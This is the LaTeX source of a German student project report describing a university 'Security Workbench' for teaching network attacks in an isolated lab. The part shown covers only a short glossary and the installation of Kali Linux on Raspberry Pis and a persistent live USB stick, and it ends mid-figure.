%!TEX program = pdflatex

%!TEX root = ../document.tex
\documentclass[article,11pt,DIV=8,listof=totoc, lststotoc]{scrreprt}
\usepackage{scrhack}
\usepackage[utf8]{inputenc}
\usepackage[ngerman]{babel}
\usepackage{setspace}
\usepackage{microtype}
\usepackage[T1]{fontenc}
\usepackage[usenames,dvipsnames,svgnames,table]{xcolor}
\usepackage{blindtext}
\usepackage{amsmath}
\usepackage{mathpazo}
\usepackage{FiraSans}
\usepackage[scaled=.98,sups,osf]{XCharter}
\usepackage[scaled=1.04,varqu,varl]{inconsolata}
\usepackage{graphicx}
\usepackage{url}
\usepackage{csquotes}
\usepackage{tikz}
\usepackage{xparse}
\usepackage{listings}
\usepackage{float}
\usepackage{wrapfig}
\setlength{\emergencystretch}{0.5em}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%d%%


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% colors
\definecolor{THI-Blue}{RGB}{1,90,156}
\definecolor{altgray}{RGB}{240, 240, 240}
\colorlet{BLACK}{black}
\colorlet{documentColor}{THI-Blue}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% listings
\definecolor{darkgreen}{rgb}{0, 0.4, 0}
\lstset{
         basicstyle=\footnotesize\ttfamily, % Standardschrift
         numbers=left,               % Ort der Zeilennummern
         numbersep=5pt,              % Abstand der Nummern zum Text
         tabsize=2,                  % Groesse von Tabs
         extendedchars=true,         %
         breaklines=true,            % Zeilen werden Umgebrochen
         keywordstyle=\color{red},
    		frame=b,         
         stringstyle=\color{blue}\ttfamily, % Farbe der String
         showspaces=false,           % Leerzeichen anzeigen ?
         showtabs=false,             % Tabs anzeigen ?
         xleftmargin=17pt,
         framexleftmargin=17pt,
         framexrightmargin=5pt,
         framexbottommargin=4pt,
         %backgroundcolor=\color{lightgray},
         showstringspaces=false,      % Leerzeichen in Strings anzeigen ?        
         commentstyle=\color{darkgreen}
}
%\lstset{basicstyle=\footnotesize\ttfamily,breaklines=true}
%\lstset{stringstyle=\color{red}} % typewriter type for strings
%\lstset{keywordstyle=\color{blue}\bfseries} \lstset{commentstyle=\color{green}}

\lstloadlanguages{C}


\lstset{literate=%
  {Ö}{{\"O}}1
  {Ä}{{\"A}}1
  {Ü}{{\"U}}1
  {ß}{{\ss}}2
  {ü}{{\"u}}1
  {ä}{{\"a}}1
  {ö}{{\"o}}1
}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Section font settings
\addtokomafont{chapter}{\leavevmode\color{documentColor}}
\addtokomafont{section}{\leavevmode\color{documentColor}}
\addtokomafont{subsection}{\leavevmode\color{black!70}}
\addtokomafont{title}{\mdseries\Huge\leavevmode\color{documentColor}}
\addtokomafont{author}{\sffamily\color{black!70}}
\addtokomafont{date}{\sffamily\color{black!70}}
\addtokomafont{subtitle}{\Large}
\addtokomafont{subject}{\sffamily\mdseries\color{black!70}\lsstyle}
\addtokomafont{disposition}{\mdseries}
\addtokomafont{paragraph}{\normalfont\bfseries\color{black!80}}
\addtokomafont{caption}{\small\sffamily\color{black!80}}
\addtokomafont{captionlabel}{\sffamily\color{documentColor}}
\setcounter{secnumdepth}{3}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% begin of the document
\usepackage{eso-pic}
\AtBeginDocument{
\newcommand\BackgroundPic{%
 \put(-1,-1){%
\parbox[b][\paperheight]{\paperwidth}{%
\vfill

\includegraphics[width=0.95\paperwidth]{imports/thi_green.png}
\hfill
}
}
\put(0,-120){%
\parbox[b][\paperheight]{\paperwidth}{%
\vfill
\centering

\includegraphics[width=7cm]{imports/thi_logo.pdf}
\\[0.5cm]
\vfill
}}
}
\AddToShipoutPicture*{\BackgroundPic}
\maketitle
\clearpage
}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Header
\usepackage[automark]{scrlayer-scrpage}
% \pagestyle{headings}
\addtokomafont{pageheadfoot}{\normalfont\small\color{black!60}\sffamily}
\addtokomafont{pagefoot}{\small}
\addtokomafont{pagehead}{\small}
\addtokomafont{pagenumber}{\normalfont\small\color{black!60}\sffamily}
\newcommand\spacedlowsmallcaps[1]{\scshape\lsstyle \MakeLowercase{#1}}
\newcommand\spacedallcaps[1]{#1}

\clearscrheadings
%\renewcommand{\sectionmark}[1]{\markright{\thesection\enspace\spacedlowsmallcaps{#1}}}
\renewcommand{\chaptermark}[1]{\markboth{\spacedlowsmallcaps{#1}}{\spacedlowsmallcaps{#1}}}
\lehead{\mbox{\llap{\thepage\kern2em}\headmark\hfil}}
\rohead{\mbox{\hfil{\headmark}\rlap{\kern2em\thepage}}}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%Makros
\newcommand\bashCommand[1]{\colorbox{altgray}{\footnotesize\texttt{#1}}}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% Hyperref ganz am Ende laden
\usepackage[hidelinks]{hyperref}

\hyphenation{Open-SSL}
%Titel
\title{Security Workbench\\ Ein Einstieg in die Netzwerksicherheit}
\subtitle{Master Informatik}
\subject{DOKUMENTATION}

\author{Studentisches Projekt \\[0.5cm]
\begin{tabular}{rl}
Betreuer & \emph{Prof. Dr. Stefan Hahndel}\\
 & \emph{Prof. Dr. Ernst Göldner}
\end{tabular}
}

%Abgabe
\date{Wintersemester 2016/17}


\begin{document}
\tableofcontents
\clearpage
\listoffigures
\clearpage
%Beginn Text

%!TEX root = ../document.tex
\chapter{Einleitung}

Dieses Dokument beschreibt die Verwendung der Security Workbench, die seit dem Sommersemester\,2016 als studentische Projektarbeit im Rahmen des Masterstudiengangs Informatik an der TH\,Ingolstadt entwickelt wird. Die Workbench erklärt und veranschaulicht verschiedene Angriffe und Szenarien aus dem Bereich der Netzwerksicherheit. Dies betrifft unter anderem Spoofing, Denial-of-Service und Angriffe auf die WLAN Infrastruktur.

Nach einer Erläuterung relevanter Fachbegriffe und der Erklärung zur grundlegenden Einrichtung der Workbench zeigen die folgenden Kapitel auf, wie die einzelnen Angriffe gestartet werden und welche Voraussetzungen für diese gelten.


\section{Rechtliches}

Für die Verwendung der hier zusammengestellten Tools sei ausdrücklich auf das Kapitel \ref{ch:disclaimer} Disclaimer verwiesen.

\section{Aktualisierung}

Die Security Workbench liegt als öffentliches Git-Repository unter der URL \url{https://github.com/th-ingolstadt/INF-M-Projekt-Security-Workbench} vor. Eine Aktualisierung per git kann auf der Kommandozeile wie folgt durchgeführt werden.

\begin{lstlisting}
> cd INF-M-Projekt-Security-Workbench
> git pull
\end{lstlisting}

%!TEX root = ../document.tex
\chapter{Fachbegriffe}
Hier werden wichtige Fachbegriffe im Kontext der Security Workbench kurz erklärt, die im späteren Verlauf für die einzelnen Angriffe eine Rolle spielen.
%TODO Eventuell in ein echtes Glossar umbauen

\section{MAC-Adresse}

Die MAC-Adresse -- kurz für \emph{Media Access Control} -- ist eine Hardwareadresse eines Netzwerkadapters, welches eben dieses Adapter im lokalen Netzwerk identifiziert. Jede LAN"=Schnittstelle und jedes WLAN"=Interface benötigt eine eigene MAC-Adresse. Eine solche MAC-Adresse ist sechs Byte lang und wird üblicherweise in hexadezimaler Notation angegeben.
\begin{verbatim}
E8-03-9A-DC-DF-23
\end{verbatim}
Unter Windows kann die eigene MAC-Adresse per \verb|ipconfig -all| bestimmt werden, unter Linux wird hierfür \verb|ifconfig -a| verwendet. Die MAC-Adresse wird pro Gerät üblicherweise vom Hersteller vergeben, daher kann anhand der ersten drei Byte über öffentlich zugängliche Datenbanken\footnote{siehe etwa \url{http://www.macvendorlookup.com/}} ein Rückschluss auf die Firma gezogen werden, welche das Netzwerkgerät produziert hat. Entsprechende Datenbanken ordnen beispielsweise obige MAC der \enquote{Samsung Electronics CO., LTD} zu.

\section{HTTP}
Hypertext Transfer Protocol (HTTP) ist ein zustandsloses Protokoll zur Übertragung von Daten auf Anwendungsschicht über ein Rechnernetz. Der Standard wurde 1991 von der Internet Engineering Task Force (IETF) und dem World Wide Web Consortium (W3C) eingeführt und ist mittlerweile in Version 2.0 (HTTP/2) veröffentlicht. Es wird meist dafür verwendet, Webseiten aus dem Internet in einen Webbrowser zu laden.

Wird ein Link zu einer URL mit dem Beginn \enquote{http://} aufgerufen, wird HTTP genutzt. Als Erstes wird dann verusch den Namen der Website mit Hilfe des DNS-Protokolls in eine IP-Adresse zu übersetzen (weitere Erklärung siehe Kapitel DNS Spoofing). Ist dies nicht möglich, wird über den Standard-Port 80 eine HTTP-GET-Anforderung gesendet. Als Antwort schickt der Web-Server die passende IP-Adresse der angefragten Webseite.

\section{HTTPS}
Hypertext Transfer Protocol Secure (HTTPS) wird zur sicheren Übertragung von Daten auf der Anwendungsschicht über ein Rechnernetz verwendet. Syntaktisch ist es wie HTTP aufgebaut, wird jedoch von eine Verschlüsselung der Daten umgeben. Dazu wird das Secure Socket Layer (SSL) bzw. die Transport Layer Security (TLS) verwendet.

Bei der Benutzung wird vor dem Versenden und Bearbeiten von Nachrichten eine Identifikation und Authentifizierung der Kommunikationspartner durchgeführt. Danach wird ein gemeinsamer Schlüssel ausgetauscht mit dem alle nachfolgenden Nachrichten verschlüsselt werden. Dabei ist der Standard-Port für HTTPS-Nachrichten Port 443.

\section{SSID/ESSID}
Ein Service Set Identifier (SSID), seltener auch ESSID (Extended SSID) bezeichnet, ist ein vom Nutzer frei zu wählender Name eines Services (WLAN-Netz), über das der Service ansprechbar ist. Ein SSID kann bis zu 32 Byte lang sein und entsprechend bis zu 32 ASCII-Zeichen umfassen.
\section{BSSID}
Die Basic Service Set Identification (BSSID) jedes WLAN-Gerätes ist eindeutig. Im Allgemeinfall versteht man unter der BSSID die MAC-Adresse des Gerätes. 

%!TEX root = ../document.tex
\chapter{Vorbereitung}
\label{ch:startWorkbench}
In diesen Kapitel geht es darum, wie man seine Hardware vorbereiten muss und wie man die Security Workbench installiert. Es ist gibt hier zwei Möglichkeiten die Security Workbench zu betreiben. Eine Möglichkeit ist mithilfe eines von Live-USB geladenen Kali-Linux Images, die Workbench auf Standart Desktop-Rechnern aufzuspielen. Diese Variante funktioniert nur mit Klassischer AMD64-Architektur. Informationen wie man den Live-USB Stick aufsetzt, wird in Kapitel \ref{sec:InstallLiveUSB} erklärt. Die andere Möglichkeit wäre das Verwenden eines bzw. mehrerere Raspberries für die Security Workbench. Wie diese installiert werden, wird ausführlich in Kapitel \ref{sec:RaspberryInstall} beschrieben.
%TODO Man kann mit Raspberry oder peer live oder auf nativen Kali
\section{Installationsanleitung für Raspberry}
\label{sec:RaspberryInstall}
Bei der Installation für die Raspberries muss unterschieden werden, welche Komponenten der Security Workbench vorbereitet werden sollen. Denn die beiden Raspberry Pi's, Angreifer und Opfer, besitzen ein anderes Betriebssystem als das Raspberry, welches für die Infrastruktur verwendet wird.\\
Die Opfer- / Angreifersysteme sind Funktionsgleich mit denen vom Live-USB-Stick, die Beiden können jederzeit die Position des Angreifers oder des Opfers tauschen. Der dritte Raspberry, welcher die Infrastruktur bereitstellt, hat jedoch eine grundsätzlich andere Aufgabe. Er stellt das Netztwerk und die benötigten Webseiten zur Verfügung, um die Angriffe komplett abgeschirmt vom Netz durchzuführen. Zusätzlich besteht die Möglichkeit, da dieser Raspberry keine andere Architektur aufweist im Vergleich zu den anderen Beiden, den Live-USB-Stick zu tauschen und dort die Angreifer- bzw. Opferrolle einzunehmen.
\subsection{Kali Linux}
Für das Angreifer- und Opfersystem wird, wie beim Live-USB, auf Kali-Linux gesetzt. Dies ermöglicht eine hohe Kompatiblität zwischen den beiden Systemen. Ein weiterer Vorteil ist, dass es verschiedene Kali-Linux-Pakete, für gängige Penetration Testing Software, gibt.
%TODO ein paar Vorworte
\label{subsec:installRPIKali}
\subsubsection{Kali Linux auf USB/SD Kopieren}
Das Kali-Linux für den Raspberry kann man kostenlos bei \href{https://www.offensive-security.com/kali-linux-arm-images/}{Offensive Security} downloaden. Unter Windows kann man Win32DiskImager verwenden, um das Image auf eine SD oder einen USB-Stick zu spielen. Bei linuxbasierten Systemen ist es üblich, das Terminal-Tool \bashCommand{dd} zu verwenden. Eine Anleitung, wie man dd verwendet um für das Raspberry ein Image zu kreieren, findet man unter \href{https://www.raspberrypi.org/documentation/installation/installing-images/README.md}{https://www.raspberrypi.org/documentation/installation/installing-images/README.md}. Um zukünftig vom USB booten zu können, muss wie bereits beschrieben, bei jedem Raspberry Pi noch ein Bootflag  übergeben werden. Genaueres siehe Kapitel \ref{subsec:USBBootKali}. 

\subsubsection{Abhängigkeiten nachinstallieren}
Nachdem man Kali Linux auf sein Boot Gerät installiert hat kann man das Projekt mit Hilfe von git herunterladen. Wenn git noch nicht installiert ist kann man auf der Konsole mit Hilfe des Befehls \bashCommand{apt update \&\& apt install git} git nachinstallieren. Mit Hilfe von\\ \bashCommand{git clone https://github.com/th-ingolstadt/INF-M-Projekt-Security-Workbench.git}
lädt man den aktuellsten Stand herunter.\\
Alternativ kann man sich raspiInit.sh herunterladen und dieses Skript ausführen. Bei diesen Skript wird auch gleich noch der Bildschirm richtig gedreht.
Um nun die fehlenden Abhängigkeiten nachzuinstallieren muss man in der Konsole noch\\
\bashCommand{chmod +x INF-M-Projekt-Security-Workbench/Projekte/InstallScripts/kaliARM.sh }
\linebreak
\bashCommand{\&\& ./INF-M-Projekt-Security-Workbench/Projekte/InstallScripts/kaliARM.sh}
eingeben. Nun werden noch alle benötigten Programme nachinstalliert. Wenn man nun alle gewollte Geräte aufgesetzt hat, kann man wie in \ref{sec:startWorkbench} beschrieben fortfahren.

\subsubsection{Raspberry USB Bootfähig machen}
\label{subsec:USBBootKali}
Um Kali-Linux vom USB booten zu können, muss zuerst wie in \ref{subsec:USBBoot} beschrieben der Raspberry bootfähig gemacht werden. %Da leider in den Kali-Linux Paketen zum aktuellen Zeitpunkt nicht die benötigten Programme enthalten sind, muss man diese mit Hilfe von einem Raspbian gemacht werden.
Leider hat nur das Raspbian Betriebssystem die Möglichkeit das Boot-Flag zu setzen. Aus diesem Grund benötigt man hierfür Raspbian.

\subsubsection{KaliARM install Script}
Da die Installationsskripte sehr umfangreich sind, gehe ich hier nur knapp drauf ein. Wenn sich jemand einen genaueren Überblick über die Skripte verschaffen möchte, sollte er die Kommentare des Skripts beachten. Grob besteht das Kali-Installations-Script aus den Bereichen Kali-Linux auf den neusten Software Stand bringen, fehlende Pakete nachinstallieren, Wireshark konfigurieren, Docker-Engine installieren und die Docker-Container bauen. Man kann das komplette Skript unter Projekte/InstallScripts finden.

\subsection{Raspbian}
\label{sc:installRaspbian}
%TODO ein paar Vorworte
\subsubsection{Raspbian auf USB/SD Kopieren}
Raspbian kann man kostenlos bei \href{https://www.raspberrypi.org/downloads/}{raspberrypi.org} herunterladen. 
Das Image bespielt man mithilfe von Win32DiskImager auf eine/n SD oder USB(Zusätzliche Schritte sind benötigt siehe\ref{subsec:USBBoot}). Unter Linux kann man hier einfach DD verwenden. Genauere Anleitungen wie man vorgeht, findet man unter \href{https://www.raspberrypi.org/documentation/installation/installing-images/README.md}{https://www.raspberrypi.org/documentation/installation/installing-images/README.md}
\subsubsection{Projekt aufsetzten}
Um den Raspbian aufzusetzen kann man das Skript raspiInit.sh verwenden, um das Projekt zu downladen und auch den Bildschirm richtig zu drehen. Nach der Ausführung muss man noch den im Terminal beschrieben Anweisungen folgen. Nach dem Neustart(Damit der Bildschirm richtig gedreht ist) muss man raspiService.sh ausführen. Hier wird die benötigte Software installiert und konfiguriert, so dass nach einem Neustart auch alle Services automatisch funktionieren. Als letztes Skript führt man noch raspiDockerInstall.sh ausführen. Dieses Skript kümmert sich um die Docker-Container. Hier werden alle für das Projekt benötigte Container gebaut und konfiguriert.

\subsubsection{Raspberry USB bootfähig machen}
\label{subsec:USBBoot}
Um beim Raspberry vom USB-Stick zu booten anstatt von der SD-Karte, muss man zuerst Raspbian auf eine SD-Karte installieren und booten. Als nächstes führt man im Terminal folgenden Befehl aus\\ \bashCommand{echo program\_usb\_boot\_mode=1 | sudo tee -a /boot/config.txt} nach einen Neustart kann man dann schon von einem USB-Gerät booten. Eine genauere und ausführlicher Anleitung findet man unter \href{https://www.raspberrypi.org/documentation/hardware/raspberrypi/bootmodes/msd.md
}{raspberrypi.org}.

\subsubsection{Installations-Scripte}
Die genauen Informationen was die Installationsskripte(raspiInit.sh, raspiService.sh, raspiDockerInstall.sh) machen, kann man den Kommentaren in den Skripten entnehmen. Die Installations-Skripte installieren Software nach, sodass der Raspberry wie ein Wlan-Router fungiert. Hierbei wird folgende Software verwendet: isc-dhcp-server, freeradius, hostapd, bind9.\\
isc-dhcp-server, freeradius, hostapd sind dafür verantwortlich das Clients sich im Netzwerk, mit Hilfe eines WLAN-AP oder mit Hilfe von eth1 und einem Switch, einwählen können. 
isc-dhcp-server ist hierbei dafür verantwortlich neuen Clients eine IP zuzuweisen. Hier hat jedes Interface ein /20-Netz zur Verfügung.\\%TODO
hostapd ermöglicht es mit Hilfe eines WLAN-Interfaces ein WLAN-AP zu erstellen. Mit Hilfe von freeradius als Radius-Server ist es dann auch möglich ein WPA2-Enterprise AP zu erstellen. Hierbei ist es auch möglich mehrere AP mit unterschiedlichen Verfahren gleichzeitig zu betreiben.
bind9 ist ein sehr leistungsstarker DNS-Server. Dieser wird verwendet um local Domains zu verwalten. Diese werden in den Tutorials für ARP und Keyloger verwendet.
Zu guter Letzt werden noch die Docker-Container gebaut und konfiguriert. Genauere Informationen kann man der Datei raspiDockerInstall.sh entnehmen.

\section{Installationsanleitung Live USB mit Persistenz}
\label{sec:InstallLiveUSB}
Es wurde ein Live USB erstellt, von welchem wir Kali Linux starten. Dies bedeutet, dass wir ein Kali Linux Image auf einen USB-Stick übertragen und von diesem dann anschließend auch das Kali Linux Betriebssystem booten können. 
Durch die zusätzliche Persistenz können Änderungen und Daten, die auf dem USB-Stick gespeichert werden, gespeichert werden und stehen somit auch nach einem Neustart des Kali Linux Systems zur Verfügung.

\subsection{Ablauf des Vorgangs mit Win10}

Es sollte mindestens ein 8GB USB-Stick verwendet werden.
!!WARNUNG ES GEHEN ALLE DATEN AUF DIESEM USB-STICK VERLOREN!!

Im diesem Abschnitt wurde folgendes verwendet

\begin{itemize}
	\item \bashCommand{SanDisk Ultra USB 3.0 16GB} USB-Stick der bootbar gemacht wird
	\item \bashCommand{Kali linux 2016.2 64bit} ISO-File Kali Linux
	\item \bashCommand{MiniTool Partition Wizard 9.1} Formatieren und Anpassen der Partitionen
	\item \bashCommand{Universal USB Installer 1.9.6.8} Übertragen des Images auf den USB-Stick
\end{itemize}

Zuerst muss die aktuellste Version von Kali Linux heruntergeladen werden. Diese kann man auf www.kali.org/downloads/ finden.
Sollten sich noch Daten auf dem USB-Stick befinden bitte diese jetzt an einem anderem Ort abgespeichert und dann vom USB-Stick entfernt werden. 
Um nun das Kali Image auf den USB-Stick zu übertragen wird der Universal USB Installer geöffnet.

Nun sollten wie in Abbildung \ref{fig:start usb installer} in Step 1 Kali Linux ausgewählt werden. In Step 2 muss nun der "'Browse"' Button betätigt und der Pfad der Kali ISO-Datei ausgewählt werden. Anschließend wird in Step 3 der gewünschte USB-Stick ausgewählt werden. Dabei sollte auch das Kästchen daneben ausgewählt werden, um den USB-Stick auf Fat32 zu formatieren. (Achtung! Hier bitte sorgfältig arbeiten, sonst könnte die falsche Partition gelöscht werden.)
	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.7\textwidth]{images/prep/start_usb_installer.png}
		\caption{Einstellungen beim Universal USB Installer}
		\label{fig:start usb installer}
	\end{figure}


Nach erfolgreichem Abschluss öffnen wir nun das Programm MiniTool Partition Wizard. Hier muss nun wie in Abbildung \ref{fig:rightclick resize} per Rechtsklick auf den Speicherbereich des USB-Sticks "'Move/Resize"' ausgewählt werden.
	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.8\textwidth]{images/prep/click_resize_part.png}
		\caption{Rechtsklick auf den Speicherbereich}
		\label{fig:rightclick resize}
	\end{figure}
Im nächsten Fenster soll der Speicherbereich der Partition verkleinert werden.
	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.75\textwidth]{images/prep/resize_window.png}
		\caption{Verkleinern der Partition}
		\label{fig:start resize partition}
	\end{figure} 

	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.75\textwidth]{images/prep/resized_part.png}
		\caption{Verkleinern der Partition}
		\label{fig:finish resize partition }
	\end{figure} 
Für unser Beispiel wurden 5GB ausgewählt, obwohl noch kleinere Werte auch möglich wären.
Nachdem dieser Vorgang ausgeführt wurde, ist nun ein grauer, nicht belegter Bereich sichtbar.
Nach Rechtsklick auf diesen Bereich und anschließendem Klick auf "'Create"' öffnet sich ein neues Fenster.
	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.9\textwidth]{images/prep/create_part.png}
		\caption{Erstellen der zweiten Partition}
		\label{fig:createPartition}
	\end{figure}

Wie in Abbildung\ref{fig:createPartition} müssen nun die folgenden Optionen ausgewählt werden. 

\begin{itemize}
	\item Partition Label: persistence
	\item Create as: Primary
	\item File System: Ext4
\end{itemize}

Um alles auszuführen, muss im linken oberen Teil des Fensters auf "'Apply"' gedrückt werden.
Nachdem dieser Vorgang abgeschlossen wurde, beenden sie den Partition Wizard.

Nun muss der PC neu gestartet werden und vom neu erstellten USB-Stick gebootet werden.
Beim Bootvorgang sehen wir nun folgendes Fenster.

	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.9\textwidth]{images/prep/kali_start.png}
		\caption{Startfenster Kali}
		\label{fig:start kali}
	\end{figure}


Hier muss nun die Option "'Live USB Persistence"' ausgewählt werden.
Nach dem erfolgreichen Bootvorgang muss nun das Terminal geöffnet werden.

	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.9\textwidth]{images/prep/terminalpic.png}
		\caption{Terminal in Kali}
		\label{fig:terminal kali}
	\end{figure}

Zuerst muss hier der folgende Befehl eingegeben werden. (Beachten Sie die Englische Tastatureinstellung)
\begin{lstlisting}
fdisk -l
\end{lstlisting}
Hier sollte eine ähnliche Ausgabe wie hier im Bild folgen. 

	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.9\textwidth]{images/prep/fdisk.png}
		\caption{Ausgabe fdisk -l}
		\label{fig:fdsik output}
	\end{figure}

Nun muss unser USB-Stick unter den Devices gefunden werden. Achten sie dabei darauf, dass der USB-Stick zwei Partitionen besitzt. Zusätzlich sollte geprüft werden, ob die beiden Partitionen mit den vorher eingestellten Größen und Dateisystemen übereinstimmen.
Wählen Sie nun die Linux Partition aus. In unserem Beispiel ist das die im Bild markierte sdc2 Partition.

	\begin{figure}[H]
		\centering
